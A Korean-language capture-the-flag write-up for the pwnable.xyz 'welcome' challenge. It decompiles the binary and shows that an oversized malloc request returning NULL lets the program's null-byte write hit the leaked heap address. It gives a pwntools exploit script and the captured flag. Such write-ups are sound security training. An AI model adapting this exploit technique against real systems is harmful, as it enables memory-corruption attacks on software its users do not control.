

# pwnable.xyz : welcome
## INDEX
1. 문제 정보
    + 1.1 문제 이름
    + 1.2 문제 설명
    + 1.3 문제 분야
    + 1.4 문제 정답
2. 풀이 방법
    + 2.1 풀이 환경
    + 2.2 풀이 내용
    + 2.3 exploit code
---
## 1. 문제 정보
### 1.1 문제 이름
사이트 링크 : pwnable.xyz  
문제 이름 : welcome
### 1.2 문제 설명

### 1.3 문제 분야
pwnable
### 1.4 문제 정답
``` shell
seopho@seopho-virtual-machine:~/Desktop/image/challenge$ python3 attack.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/seopho/.cache/.pwntools-cache-3.6/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.8.0 --> 4.9.0).
    Update with: $ pip install -U pwntools
[+] Opening connection to svc.pwnable.xyz on port 30000: Done
[*] Switching to interactive mode
FLAG{did_you_really_need_a_script_to_solve_this_one?}[*] Got EOF while reading in interactive
```
## 2. 풀이 방법
### 2.1 풀이 환경
OS : Ubuntu 18.04.6  
Architecture : x86-x64  
Debugging : IDA-8.2  
API : pwntools  
### 2.2 풀이 내용
파일을 다운로드 받으면, challenge_21.gz라는 파일을 다운로드 받을 수 있다. 확장자 .gz는 gzip이라는 파일 압축 프로그램으로 압축을 했다는 의미이다. gzip 파일은 다음과 같은 명령어로 압축을 해제할 수 있다.
```
gzip -d {filename}.gz
```
압축을 해제하면, challenge_21이라는 파일이 생성되는데 file 명령어로 확인해보니, tar이라는 압축파일이라고 한다.
```
seopho@seopho-virtual-machine:~/Downloads$ file challenge_21
challenge_21: POSIX tar archive (GNU)
```
tar 압축파일은 다음과 같은 명령어로 압축을 해제할 수 있다.  
```
tar -xvf <filename.tar>
```
압축을 해제하면, image라는 디렉터리가 생성되는 것을 확인할 수 있다.
```
seopho@seopho-virtual-machine:~/Downloads$ ls -l
drwxrwxr-x 3 seopho seopho     4096  1월 26 17:17  image
```
최종적으로 challenge라는 파일을 확인할 수 있다. 하지만 실행권한이 없기 때문에, 로컬에서 실행은 불가능했다.
```
seopho@seopho-virtual-machine:~/Downloads$ cd image/
seopho@seopho-virtual-machine:~/Downloads/image$ ls
challenge
seopho@seopho-virtual-machine:~/Downloads/image$ cd challenge/
seopho@seopho-virtual-machine:~/Downloads/image/challenge$ ls
challenge
seopho@seopho-virtual-machine:~/Downloads/image/challenge$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1c86fc6fe1662d8037294b634c1cd0011bb304cb, stripped
seopho@seopho-virtual-machine:~/Downloads/image/challenge$ ls -l
total 12
-rw-r--r-- 1 seopho seopho 10224 12월 26  2018 challenge
```
그래서 nc 명령어로 사이트에서 적혀져 있던 주소를 입력해보았다. 처음에 메모리 주소형태로 된 값이 출력되고, 사용자로부터 입력을 총 2번 받는다.
```
seopho@seopho-virtual-machine:~$ nc svc.pwnable.xyz 30000
Welcome.
Leak: 0x7fec99203010
Length of your message: 10
Enter your message: test 
test
```
IDA로 파일을 열어보니, 소스코드는 다음과 같았다.
``` c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rbx
  char *v4; // rbp
  size_t v5; // rdx
  size_t size[5]; // [rsp+0h] [rbp-28h] BYREF

  size[1] = __readfsqword(0x28u);
  sub_B4E(a1, a2, a3);
  puts("Welcome.");
  v3 = malloc(0x40000uLL);
  *v3 = 1LL;
  _printf_chk(1LL, "Leak: %p\n", v3);
  _printf_chk(1LL, "Length of your message: ");
  size[0] = 0LL;
  _isoc99_scanf("%lu", size);
  v4 = (char *)malloc(size[0]);
  _printf_chk(1LL, "Enter your message: ");
  read(0, v4, size[0]);
  v5 = size[0];
  v4[size[0] - 1] = 0;
  write(1, v4, v5);
  if ( !*v3 )
    system("cat /flag");
  return 0LL;
}
```
flag 파일을 확인하는 문제이기 때문에, 중점적으로 볼 코드는 다음과 같다. !*v3 식이 참이라면, system() 함수를 한다. 즉, *v3가 0이라면 조건식이 참이 될 것이다.
``` c
if ( !*v3 )
    system("cat /flag");
```
이제 전체적으로 소스코드를 이해하면 다음과 같다.

1. v3라는 포인터 변수, char형 포인터 변수 v4, size_t(unsigned int)형 v5, size_t(unsigned int)형 size[5]를 선언한다.
2. malloc() 함수를 호출하여, 0x40000 byte만큼 heap영역에 할당하고, 그 메모리를 v3가 참조한다. v3가 참조하는 메모리 영역에 정수값 1을 할당한다.
3. size[0]에 0을 할당한다.
4. 사용자로부터 값을 입력받고, 그 값을 size에 할당한다.
5. malloc()함수를 호출하여, 사용자로부터 입력받은 size byte만큼 heap영역에 할당하고, v4가 참조한다.
6. read()함수를 호출하여, 사용자로부터 입력을 받고 그 입력받은 값을 v4가 참조하고 있는 메모리에 할당한다.
7. 그리고 v5에 size[0]를 할당한다.
8. v4[size[0]-1]에 0을 할당한다.
9. write()함수를 호출하여, v5 byte만큼 v4에 할당한다.  

하지만 이 소스코드만 가지고는 문제를 풀 실마리를 찾기 어려웠다. 그래서, 디스어셈블을 해보기로 했다. 디스어셈블된 코드는 다음과 같다.

```
.text:0000000000000920 ; __int64 __fastcall main(__int64, char **, char **)
.text:0000000000000920 main            proc near               ; DATA XREF: start+1D↓o
.text:0000000000000920
.text:0000000000000920 size            = qword ptr -28h
.text:0000000000000920 var_20          = qword ptr -20h
.text:0000000000000920
.text:0000000000000920 ; __unwind {
.text:0000000000000920                 push    rbp
.text:0000000000000921                 push    rbx
.text:0000000000000922                 sub     rsp, 18h
.text:0000000000000926                 mov     rax, fs:28h
.text:000000000000092F                 mov     [rsp+28h+var_20], rax
.text:0000000000000934                 xor     eax, eax
.text:0000000000000936                 call    sub_B4E
.text:000000000000093B                 lea     rdi, s          ; "Welcome."
.text:0000000000000942                 call    puts
.text:0000000000000947                 mov     edi, 40000h     ; size
.text:000000000000094C                 call    malloc
.text:0000000000000951                 lea     rsi, aLeakP     ; "Leak: %p\n"
.text:0000000000000958                 mov     rdx, rax
.text:000000000000095B                 mov     rbx, rax
.text:000000000000095E                 mov     qword ptr [rax], 1
.text:0000000000000965                 mov     edi, 1
.text:000000000000096A                 xor     eax, eax
.text:000000000000096C                 call    __printf_chk
.text:0000000000000971                 lea     rsi, aLengthOfYourMe ; "Length of your message: "
.text:0000000000000978                 mov     edi, 1
.text:000000000000097D                 xor     eax, eax
.text:000000000000097F                 call    __printf_chk
.text:0000000000000984                 lea     rdi, aLu        ; "%lu"
.text:000000000000098B                 mov     rsi, rsp
.text:000000000000098E                 xor     eax, eax
.text:0000000000000990                 mov     [rsp+28h+size], 0
.text:0000000000000998                 call    __isoc99_scanf
.text:000000000000099D                 mov     rdi, [rsp+28h+size] ; size
.text:00000000000009A1                 call    malloc
.text:00000000000009A6                 lea     rsi, aEnterYourMessa ; "Enter your message: "
.text:00000000000009AD                 mov     rbp, rax
.text:00000000000009B0                 mov     edi, 1
.text:00000000000009B5                 xor     eax, eax
.text:00000000000009B7                 call    __printf_chk
.text:00000000000009BC                 mov     rdx, [rsp+28h+size] ; nbytes
.text:00000000000009C0                 xor     edi, edi        ; fd
.text:00000000000009C2                 mov     rsi, rbp        ; buf
.text:00000000000009C5                 call    read
.text:00000000000009CA                 mov     rdx, [rsp+28h+size] ; n
.text:00000000000009CE                 mov     rsi, rbp        ; buf
.text:00000000000009D1                 mov     edi, 1          ; fd
.text:00000000000009D6                 mov     byte ptr [rbp+rdx-1], 0
.text:00000000000009DB                 call    write
.text:00000000000009E0                 cmp     qword ptr [rbx], 0
.text:00000000000009E4                 jnz     short loc_9F2
.text:00000000000009E6                 lea     rdi, command    ; "cat /flag"
.text:00000000000009ED                 call    system
```
주목해야할 점은 바로 이 부분이다. 
```
.text:00000000000009D6                 mov     byte ptr [rbp+rdx-1], 0
```
rbp+rdx-1주소에 위치한 메모리값에 0을 할당해준다.
여기서 rbp는 v4를 의미한다. v4는 위에서 설명했지만, 사용자로부터 정수 값을 입력받아서 그 값만큼 malloc() 함수로  heap 영역을 할당한다. 그리고 그 영역을 v4가 참조하고 있다. 그리고 rdx는 v5를 의미한다. v5는 위에서 설명했지만, 사용자로부터 입력 받은 정수 값(즉, v4가 참조하고 있는 메모리의 크기)이 v5에 할당된다. 

그 다음 단계로 넘어가기 위해서 malloc() 함수에 대해서 이해해야만 했다. 이 [사이트](https://www.ibm.com/docs/en/i/7.1?topic=functions-malloc-reserve-storage-block)에서 malloc에 대해 자세하게 설명을 해주었다. 사이트 내용에서 이 문제를 풀기 위한 지식들을 정리하자면 다음과 같다.
1. malloc()의 반환 값은 할당한 메모리 영역에 대한 포인터이며, 만약 heap영역 공간이 충분하지 않거나, 크기가 0으로지정된 경우 NULL를 반환한다.
2. malloc()을 통해서 heap영역에 최대로 할당할 수 있는 메모리 양은 16711568 byte이다. 

즉, 소스 코드 _isoc99_scanf("%lu", size); 에서 16711568보다 큰 값을 입력하여, v4가 참조하는 값을 NULL로 바꾸고, v5는 입력했던 값(16711568보다 큰 값을 입력했던...)이 할당이 될 것이다.

그리고, NULL(v4참조하는 heap영역) + v5는 입력했던 값(16711568보다 큰 값을 입력했던...) -1 연산을 진행하고, 그 결과값이 특정한 메모리 주소를 나타내고, 그 메모리 주소에 들어있는 값에 0을 할당한다.

이 문제를 풀기 위해서 포인터 변수 v3가 참조하고 있는 메모리영역의 값이 0이 되어야 한다. v3는 위에서 설명했지만, malloc() 함수로 0x40000 byte만큼 heap영역에 할당되어 있고, 친철하게도 v3가 참조하는 heap 영역의 첫번째 주소값을 알려준다(  _printf_chk(1LL, "Leak: %p\n", v3);) 이 값을 소스 코드 _isoc99_scanf("%lu", size); 부분에

v3가 참조하는 메모리 영역의 주소값 + 1

을 하는 것이다.

지금까지 설명한 내용을 토대로 exploit code를 작성하면 다음과 같다.
### exploit code
``` python
from pwn import*

p = remote("svc.pwnable.xyz",30000)
p.recvuntil("Leak: ")
leak_value = p.recv(14)
leak_value = int(leak_value,16)+1

p.recvuntil("Length of your message: ")
p.sendline(str(leak_value))

p.recvuntil("Enter your message: ")
p.sendline("test")

p.interactive()
```